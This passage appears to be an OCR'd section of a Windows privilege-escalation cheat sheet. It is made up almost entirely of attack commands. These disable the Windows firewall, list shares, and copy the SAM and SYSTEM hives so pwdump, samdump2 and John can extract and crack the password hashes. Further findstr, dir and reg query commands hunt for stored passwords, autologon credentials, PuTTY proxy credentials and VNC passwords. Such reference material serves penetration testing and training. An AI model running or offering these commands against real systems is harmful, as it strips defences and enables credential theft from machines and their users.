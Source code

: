 Disable firewall

netsh firewall set opmode disable
netsh advfirewall set allprofiles state off

List all network shares

net share

SNMP Configuration

reg query HKLM\SYSTEM\CurrentControlSet\Services\SNMP /s
Get-ChildItem -path HKLM:\SYSTEM\CurrentControlSet\Services\SNMP -Recurse

EoP - Looting for passwords

SAM and SYSTEM files

The Security Account Manager \(SAM\), often Security Accounts Manager, is a database file. The user passwords are stored in a hashed format in a registry hive either as a LM hash or as a NTLM hash. This file can be found in %SystemRoot%/system32/config/SAM and is mounted on HKLM/SAM.

\# Usually %SYSTEMROOT% = C:\Windows
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system

Generate a hash file for John using pwdump or samdump2.

pwdump SYSTEM SAM &gt; /root/sam.txt
samdump2 SYSTEM SAM -o sam.txt

Then crack it with john -format=NT /root/sam.txt.

Search for file contents

cd C:\ & findstr /SI /M "password" \*.xml \*.ini \*.txt
findstr /si password \*.xml \*.ini \*.txt \*.config
findstr /spin "password" \*.\*

Search for a file with a certain filename

dir /S /B \*pass\*.txt == \*pass\*.xml == \*pass\*.ini == \*cred\* == \*vnc\* == \*.config\*
where /R C:\ user.txt
where /R C:\ \*.ini

Search the registry for key names and passwords

REG QUERY HKLM /F "password" /t REG\_SZ /S /K
REG QUERY HKCU /F "password" /t REG\_SZ /S /K

reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" \# Windows Autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2&gt;nul \| findstr "DefaultUserName DefaultDomainName DefaultPassword" 
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP" \# SNMP parameters
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" \# Putty clear text proxy credentials
reg query "HKCU\Software\ORL\WinVNC3\Password" \# VNC credentials
reg query HKEY\_LOCAL\_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password
